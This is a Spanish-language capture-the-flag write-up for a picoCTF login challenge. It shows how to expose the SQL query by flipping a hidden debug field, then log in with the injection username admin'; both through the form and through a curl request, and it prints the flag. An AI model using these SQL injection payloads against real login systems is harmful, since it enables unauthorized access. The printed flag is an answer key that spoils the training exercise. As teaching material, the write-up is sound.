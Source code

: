 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## Solución 1
 - Similar como al primero entramos a la pagina y nos dirigimos al login de la pagina.
- Inspeccionamos la pagina.
- Descubrimos que había un campo invisible para el usuario, así que modificamos el tipo para que sea visible y cambiamos su valor por 1.
```bash
<input type="hidden" name="debug" value="0">
<input name="debug" value="1">
```
- Cuando intentamos ingresar nos muestra tanto los datos de nuestro registro como la sentencia SQL que utiliza.
```bash
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
- Al saber que tipo de sentencia utiliza nos regresamos al formulario e intentamos hacer lo mismo que en el primero, pero al parecer filtra lo que le enviamos y entonces como sabemos que hay un usuario llamado admin modificamos el registro para que nos logre ingresar y así nos muestra la bandera.
```bash
username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

# SQLi detected.

username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```
## Solución 2
```bash
armandoPC-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=admin&dwbug=1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>armandoPC-picoctf@webshell:~$
```
## Notas Adicionales
## Referencias